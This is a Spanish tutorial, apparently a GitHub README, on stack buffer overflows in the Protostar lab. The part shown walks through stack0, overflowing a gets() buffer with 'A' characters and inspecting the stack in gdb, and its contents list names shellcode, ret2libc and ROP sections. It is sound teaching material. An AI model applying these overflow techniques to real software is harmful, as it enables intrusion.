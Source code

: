 
### \[Índice]

 - Stack 1 -> [Concepto de Buffer Overflow](#concepto-de-buffer-overflow)
 - Stack 2 -> [Sobreescribir una varaible](#sobreescribir-una-variable)
 - Stack 3 -> [Sobreescribir un puntero de instrucción](#sobreescribir-un-puntero-de-instruccion)
 - Stack 4 -> [Sobreescribir un puntero de instrucción 2](#sobreescribir-un-puntero-de-instruccion-2)
 - Stack 5 -> [Shellcode Buffer Overflow](#shellcode-bufferoverflow)
 - Stack 6 -> [Ret2libc](#ret2libc)
 - Stack 7 -> [Ret2libc y ROP](#ret2libc-y-rop)





Fuente -> [LiveOverflow](https://www.youtube.com/c/LiveOverflow/featured)

---------------------------------------------------------------------------
# Concepto de Buffer Overflow 

 > [stack0](https://exploit.education/protostar/stack-zero/)

Este binario toma el input del usuario, según el código lo mete en un buffer de 64 bytes con la función gets()

```console
[user@protostar]-[/opt/protostar/bin]:$ ./stack0 
AAAAAAA
Try again?
```
¿Si probamos a meterle mas "A" de las que caben en el buffer?

```console
[user@protostar]-[/opt/protostar/bin]:$ ./stack0 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
you have changed the 'modified' variable "Has cambiado la varaible de nombre 'modified'"
Segmentation fault
```
Parece que hemos modificado una varaible. Es decir hemos metido tantas "A" que hemos desbordado el espacio que había para ellas y escrito en otros registros.
Vamos a ver esto con más claridad en gdb.

```console
[user@protostar]-[/opt/protostar/bin]:$ gdb ./stack0 
(gdb) set disassembly-flavor intel
(gdb) disas main
Insutrucciones en ensamblador...
0x08048433 <main+63>:	leave  -> Penúltima insutrución.
(gdb) b *0x08048433 -> Si detenemos el programa aquí podremos oberservar la pila, ya que es despues de que le metamos datos.
```
Observaremos la pila tanto desbordando el buffer como sin hacerlo.

```console
(gdb) run 
AAAAAAAAAAA                                                                                            
Try again?
Breakpoint alcanzado !
(gdb) disas main
...
0x08048411 <main+29>:	mov    eax,DWORD PTR [esp+0x5c]
0x08048415 <main+33>:	test   eax,eax   -> Estas dos instrucciones miran si hay algo en [esp+0x5c]
...
(gdb) x/x $esp+0x5c
0xbffff69c:	0x00000000 -> Si observamos su contenido vemos que son todo ceros, ¿Será esta la varaible "modified"?
```
